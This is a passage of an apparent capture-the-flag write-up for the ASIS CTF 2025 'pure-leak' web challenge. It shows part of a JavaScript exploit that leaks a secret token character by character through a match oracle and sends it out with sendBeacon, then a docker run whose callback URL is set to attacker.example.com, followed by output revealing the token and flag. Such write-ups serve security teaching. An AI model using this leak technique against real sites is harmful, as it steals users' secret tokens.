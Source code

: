 ```html

        const p = "(" + CHARS.slice(left, mid).join("|") + ")";
        if (await match(known + p)) {
          right = mid;
        } else {
          left = mid;
        }
      }
      known += CHARS[right - 1];
      navigator.sendBeacon("/debug", known);
    }

    navigator.sendBeacon("/token", known);
  </script>
</body>
```

Full exploit:

- https://github.com/arkark/my-ctf-challenges/blob/main/challenges/202509_ASIS_CTF_Quals_2025/web/pure-leak/solution/index.html

Example run:
```bash
$ docker run -it --rm \
    -e BOT_BASE_URL=http://pure-leak.asisctf.com:1337 \
    -e CONNECTBACK_URL=http://attacker.example.com \
    -p 8080:8080 \
    (docker build -q ./solution)
(node:1) [FSTWRN003] FastifyWarning: The listen method mixes async and callback styles that may lead to unhandled rejections. Please use only one of them.
(Use `node --trace-warnings ...` to show where the warning was created)
[DEBUG] TOKEN_6
[DEBUG] TOKEN_62
[DEBUG] TOKEN_629
[DEBUG] TOKEN_6290
[DEBUG] TOKEN_6290e
[DEBUG] TOKEN_6290e5
[DEBUG] TOKEN_6290e54
[DEBUG] TOKEN_6290e546
[DEBUG] TOKEN_6290e5469
[DEBUG] TOKEN_6290e54698
[DEBUG] TOKEN_6290e546987
[DEBUG] TOKEN_6290e546987d
[DEBUG] TOKEN_6290e546987d4
[DEBUG] TOKEN_6290e546987d4e
[DEBUG] TOKEN_6290e546987d4e0
[DEBUG] TOKEN_6290e546987d4e0d
{
  token: 'TOKEN_6290e546987d4e0d',
  flag: 'ASIS{silksooooooong_9_4_y4y!!}'
}
```
